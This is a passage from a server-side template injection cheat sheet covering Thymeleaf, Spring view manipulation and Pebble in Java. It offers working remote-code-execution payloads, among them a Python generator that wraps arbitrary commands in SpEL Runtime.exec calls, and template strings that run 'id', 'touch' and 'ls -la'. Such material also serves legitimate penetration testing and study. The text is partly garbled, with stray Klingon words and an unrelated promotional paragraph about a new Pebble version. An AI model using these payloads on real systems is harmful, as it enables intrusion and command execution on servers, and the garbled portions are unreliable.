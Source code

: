   ```

cmd = list(argv[1].strip())
print("Payload: ", cmd , end="\n\n")
converted = [ord(c) for c in cmd]
base_payload = '*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec'
end_payload = '.getInputStream())}'

count = 1
for i in converted:
if count == 1:
base_payload += f"(T(java.lang.Character).toString({i}).concat"
count += 1
elif count == len(converted):
base_payload += f"(T(java.lang.Character).toString({i})))"
else:
base_payload += f"(T(java.lang.Character).toString({i})).concat"
count += 1

print(base_payload + end_payload)
```
**Qapla'!**

* [Thymleaf SSTI](https://javamana.com/2021/11/20211121071046977B.html)
* [Payloads all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#java---retrieve-etcpasswd)

### Spring View Manipulation (Java)
```java
__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x
__${T(java.lang.Runtime).getRuntime().exec("touch executed")}__::.x
```
* [https://github.com/veracode-research/spring-view-manipulation](https://github.com/veracode-research/spring-view-manipulation)

{% content-ref url="el-expression-language.md" %}
[el-expression-language.md](el-expression-language.md)
{% endcontent-ref %}

### Pebble (Java)

* `{{ someString.toUPPERCASE() }}`

Pebble (Java) vItlhutlh ( < version 3.0.9):
```java
{{ variable.getClass().forName('java.lang.Runtime').getRuntime().exec('ls -la') }}
```
**New version of Pebble:**

The new version of Pebble is here, packed with exciting features and improvements. Whether you're a seasoned user or new to the Pebble ecosystem, this update has something for everyone. Let's dive into what's new:
